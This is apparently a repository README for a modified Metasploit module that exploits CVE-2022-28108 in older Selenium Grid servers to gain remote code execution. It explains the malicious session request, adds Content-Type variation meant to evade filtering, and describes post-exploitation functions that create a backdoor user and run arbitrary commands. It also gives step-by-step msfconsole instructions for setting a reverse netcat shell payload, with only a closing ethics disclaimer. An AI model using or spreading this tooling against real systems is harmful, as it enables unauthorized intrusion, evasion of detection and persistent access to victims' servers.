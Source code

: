 ## Selenium Chrome RCE Exploit (Extended)

This repository contains a modified version of a Metasploit module that exploits a Remote Code Execution vulnerability in older versions of Selenium Server (Grid).

**Please read this README carefully before using this code.**

---

**Acknowledgment of Original Code:**

This module is based on the excellent work of the original authors of the Metasploit module for CVE-2022-28108. The core functionality of exploiting the Selenium Server vulnerability remains largely based on their implementation. We acknowledge and appreciate their contribution to the security community.

*   **Original Metasploit Module:**  You can find the original module within the Metasploit Framework.
*   **Original Authors:**  The original authors are credited within the module itself (typically in the `'Author'` section). Please refer to the original module for their specific names.

**Vulnerability Exploited:**

This module targets **CVE-2022-28108**, a Cross-Site Request Forgery (CSRF) vulnerability in Selenium Server (Grid) versions prior to 4.0.0-alpha-7. This vulnerability arises because the server permits non-JSON content types (like `text/plain`, `application/x-www-form-urlencoded`, and `multipart/form-data`) for certain requests. An attacker can leverage this to send malicious requests, leading to Remote Code Execution (RCE) on the server.

**How the Original Code Works:**

The original Metasploit module exploits this vulnerability by sending a crafted POST request to the `/wd/hub/session` endpoint of the vulnerable Selenium Server. This request utilizes a non-JSON `Content-Type` (specifically `text/plain`) and includes malicious configurations within the `goog:chromeOptions` of the desired browser capabilities. This allows an attacker to specify an arbitrary binary (like `/usr/bin/python3`) and arguments to be executed on the server when a new browser session is initiated.

**Modifications and Enhancements in This Version:**

This repository contains a modified version of the original Metasploit module. The key modifications include:

*   **Content-Type Evasion:** The modified module attempts to exploit the vulnerability by sending the malicious request with multiple different `Content-Type` headers. This includes `text/plain`, `application/x-www-form-urlencoded`, and `multipart/form-data`. This is done to potentially bypass basic filtering or detection mechanisms that might be looking for a specific `Content-Type`.
*   **`execute_post_exploitation` Function:** A new function `execute_post_exploitation(session_response)` has been added. This function is called after successful exploitation and aims to perform basic post-exploitation tasks. In the current implementation, it includes:
    *   Attempting to add a backdoor user to the system.
    *   Gathering basic system information (username, ID, kernel version).
*   **`execute_command_on_target` Function:** Another new function `execute_command_on_target(command)` has been added. This function allows for the execution of arbitrary commands on the target system after a successful exploit. It's used within the `execute_post_exploitation` function and can be extended for further post-exploitation activities.

**Key Differences Highlighted:**

The core difference lies in the `exploit` method and the addition of the two new functions.

*   **Original `exploit` Method:** Focused on sending a single request with `Content-Type: text/plain`.
*   **Modified `exploit` Method:** Iterates through different `Content-Type` values, attempting the exploit with each. Upon successful exploitation, it calls the `execute_post_exploitation` function.
*   **New Functions:** The `execute_post_exploitation` and `execute_command_on_target` functions are entirely new additions to this modified version, providing extended post-exploitation capabilities.

**How to Use the Modified Module:**

1. **Ensure you have Metasploit Framework installed.**
2. **Save the modified code:** Save the provided Ruby code as a `.rb` file (e.g., `selenium_rce_extended.rb`).
3. **Place the module in the Metasploit modules directory:** Copy the saved file to the appropriate Metasploit module directory. This is typically located at `/usr/share/metasploit-framework/modules/exploits/` or `~/.msf4/modules/exploits/`. Refer to your Metasploit installation for the exact location.
4. **Start Metasploit Console:** Open a terminal and run `msfconsole`.
5. **Load the module:** In the Metasploit console, use the command `use exploit/selenium_rce_extended` (or the path where you saved the file if you placed it in a subdirectory).
6. **Configure the target:** Set the target IP address and port of the vulnerable Selenium Server:
    ```
    msf6 exploit(selenium_rce_extended) > set RHOSTS <target_ip>
    msf6 exploit(selenium_rce_extended) > set RPORT <target_port>
    ```
    (The default port for Selenium Grid is often 4444).
7. **Set the payload:** Choose a payload to execute on the target system. For example, to get a reverse shell:
    ```
    msf6 exploit(selenium_rce_extended) > set PAYLOAD cmd/unix/reverse_netcat
    msf6 exploit(selenium_rce_extended) > set LHOST <your_ip>
    msf6 exploit(selenium_rce_extended) > set LPORT <your_port>
    ```
8. **Run the exploit:** Execute the module with the command `exploit`.

**Important Considerations (Disclaimer):**

*   **Use this code responsibly and ethically.** This module is provided for educational purposes and for security professionals to test and assess the security of their systems.
*   **Ensure you have explicit permission to test against the target system.** Unauthorized use of this code is illegal and unethical.
*   **Understand the risks involved.** Exploiting vulnerabilities can have unintended consequences and may destabilize target systems.
*   **Test in isolated and controlled environments.**  Always perform testing in environments where you have full control and can mitigate any potential damage.
*   **The post-exploitation functions are basic examples.** You may need to modify or extend them based on your specific needs and the target environment.

**Disclaimer of Liability:**

The author(s) of this modified code are not responsible for any misuse or damage caused by the use of this module. By using this code, you agree to take full responsibility for your actions.

**License:**

This modified code is likely covered under the same license as the original Metasploit Framework (typically the MSF License). Please refer to the original Metasploit Framework license for details.

**Contributing:**

Contributions and improvements to this module are welcome. Please feel free to submit pull requests with bug fixes, enhancements, or new features.

**Acknowledgments:**

We reiterate our gratitude to the original authors of the Metasploit module for CVE-2022-28108. Their work forms the foundation of this modified module.
